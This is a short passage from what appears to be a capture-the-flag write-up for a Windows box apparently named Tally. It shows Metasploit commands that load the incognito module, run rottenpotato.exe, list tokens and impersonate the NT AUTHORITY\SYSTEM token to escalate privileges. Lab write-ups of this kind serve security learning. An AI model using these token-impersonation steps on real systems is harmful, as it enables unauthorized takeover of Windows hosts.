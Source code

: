 Now we can load [Metasploit's incognito module](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/) and then run `rottenpotato.exe`

{% highlight bash %}
load incognito
execute -f rottenpotato.exe -Hc
list_tokens -u
{% endhighlight %}

![](/images/tally/msf-6.png)

As you can see we have the `SYSTEM` users impersonation token avaliable, so we can impersonate it with:

{% highlight bash %}
impersonate_token "NT AUTHORITY\\SYSTEM"
{% endhighlight %}

![](/images/tally/msf-7.png)
